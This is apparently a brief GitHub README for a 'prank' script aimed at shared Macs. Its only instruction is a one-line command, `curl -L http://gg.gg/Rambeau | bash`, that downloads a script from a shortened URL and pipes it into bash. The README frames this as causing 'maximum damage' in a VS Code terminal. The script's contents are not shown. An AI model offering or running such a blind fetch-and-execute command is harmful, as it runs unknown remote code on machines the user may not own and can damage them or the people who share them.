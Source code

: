 # It's just a prank bro :

Simple script for intra macs
Make sure to maximize the visual studio window and run it in vs code terminal for the maximum damage.

Simply run this command :

```
curl -L http://gg.gg/Rambeau | bash
```
